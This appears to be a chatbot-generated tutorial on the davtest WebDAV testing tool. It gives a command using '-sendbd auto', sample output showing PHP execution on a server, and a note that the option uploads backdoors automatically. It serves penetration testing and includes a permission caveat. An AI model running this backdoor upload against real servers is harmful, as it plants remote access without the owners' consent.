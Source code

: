     ```bash
    davtest -url http://example.com/webdav/ -sendbd auto
    ```

**Example Output**

The output of `davtest` will vary depending on the server's configuration and vulnerabilities. Here's a snippet of potential output:

```
Testing DAV connection to http://example.com/webdav/

  PROPFIND directory ... OK.
  OPTIONS ... OK.

Creating test directory... OK.

Sending test files...
  Sending cgi.txt ... OK.
  Sending php.txt ... OK.
  Sending asp.txt ... OK.

Testing for execution...
  Testing cgi.txt ... Not executed.
  Testing php.txt ... OK.
  Testing asp.txt ... Not executed.

Summary:
  WebDAV Server is vulnerable!
  - php.txt was executed.

```

In this example, `davtest` found that PHP files could be executed on the WebDAV server, indicating a vulnerability.

**Important Notes**

*   `davtest` uploads various test files to the WebDAV server to check for vulnerabilities.
*   The `-sendbd auto` option is useful for automatically uploading backdoors if a particular file type is found to be executable.  Backdoor files are located in the `backdoors/` directory and should have the appropriate extension (e.g., `.php` for PHP backdoors).
*   Always ensure you have permission to test a WebDAV server before running `davtest`, as unauthorized testing may be illegal.
*   The effectiveness of `davtest` depends on the configuration of the WebDAV server. Some servers may have security measures in place that prevent successful exploitation.
*   Refer to the `davtest` documentation and help output (`davtest -h`) for the most up-to-date information and options.


---
![server_inject_icon](https://pfst.cf2.poecdn.net/base/image/0e8698a6e80a985ec6d5f4d175c17866cee4b502ac78ccea3d02bb90fdca0b9f?w=100&h=33)
Related searches:
+ [davtest kali tool usage examples output](https://www.google.com/search?q=davtest+kali+tool+usage+examples+output&client=app-vertex-grounding-quora-poe)
